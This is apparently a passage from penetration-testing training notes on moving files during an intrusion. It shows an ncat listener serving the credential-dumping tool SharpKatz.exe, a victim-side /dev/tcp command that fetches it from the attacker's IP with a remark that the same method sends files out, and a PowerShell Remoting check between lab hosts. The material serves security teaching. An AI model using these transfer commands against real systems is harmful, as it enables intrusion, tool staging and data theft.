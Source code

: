 ### **Ncat - Sending File as Input to Ncat**

```
th1nyunb0y@htb[/htb]$ # Example using Ncat
th1nyunb0y@htb[/htb]$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### **Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**

```
victim@target:~$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

**Note:** The same operation can be used to transfer files from the compromised host to our Pwnbox.

---

## **PowerShell Session File Transfer**

We already talk about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2), aka WinRM, to perform file transfer operations.

[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.

We have a session as `Administrator` in `DC01`, the user has administrative rights on `DATABASE01`, and PowerShell Remoting is enabled. Let's use Test-NetConnection to confirm we can connect to WinRM.

### **From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01**

```powershell
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```powershell
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985

ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```
